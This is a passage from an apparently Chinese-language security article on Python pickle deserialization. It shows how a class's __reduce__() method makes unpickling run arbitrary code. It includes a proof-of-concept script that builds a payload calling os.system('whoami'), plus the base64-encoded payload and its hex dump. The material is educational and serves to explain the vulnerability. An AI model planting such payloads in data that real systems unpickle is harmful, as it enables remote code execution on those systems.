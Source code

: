看似反序列化并不能实例化任意对象（运行环境依赖），但有那么些 tricks 可以达到进行反序列化即可任意代码执行的效果。

如果一个类定义了 `__reduce__()` 函数，那么在对其实例进行反序列化的时候，`pickle` 会通过 `__reduce__()` 函数去寻找正确的重新类实例化过程。（`__reduce__()` 函数[详细文档参考](https://docs.python.org/2/library/pickle.html#object.__reduce__)）

例如这里我在 `MyObj` 类中定义 `__reduce__()` 函数：

```python
...
class MyObj(object):
    loa = 'hello my object'
    def __reduce__(self):
        return (str, ('replaced by __reduce__() method', ))
...
```

然后再执行上一节的程序过程，会直接得到输出：

![](/images/articles//2016-09-22-attacking-distributed-nodes-by-message-queue-injection/3.png)

这里不再报错是因为，`MyObj` 在进行序列化的时候，将重新构建类的过程写进了序列化数据里，`pickle` 在进行反序列化的时候会遵循重建过程去执行相应操作，这里是使用内置的 `str` 函数去操作参数 `'replaced by __reduce__() method'` 并返回，所以成功反序列化并输出的字符串。

有了 `__reduce__()` 这个函数，就可以利用该特性在反序列化的时候直接执行任意代码了，如下示例代码：

```python
# evil.py
import os
import base64
import pickle
class CMD(object):
    def __reduce__(self):
        return (os.system, ('whoami', ))
print(base64.b64encode(pickle.dumps(CMD())))
```

运行得到编码后的序列化数据：

```
Y3Bvc2l4CnN5c3RlbQpwMAooUyd3aG9hbWknCnAxCnRwMgpScDMKLg==
```

这里需要主要的是 `os.system('whoami')` 这个过程不是在序列化过程执行的，而是将这个过程以结构化的数据存于了序列化数据中，这里可以看一下二进制序列化数据：

```
➜  demo echo -n "Y3Bvc2l4CnN5c3RlbQpwMAooUyd3aG9hbWknCnAxCnRwMgpScDMKLg==" | base64 -D | xxd
0000000: 6370 6f73 6978 0a73 7973 7465 6d0a 7030  cposix.system.p0
0000010: 0a28 5327 7768 6f61 6d69 270a 7031 0a74  .(S'whoami'.p1.t
0000020: 7032 0a52 7033 0a2e                      p2.Rp3..
➜  demo
```

数据都是以 Python `pickle` 序列化数据结构进行整合的，具体底层协议实现可参考官方文档。
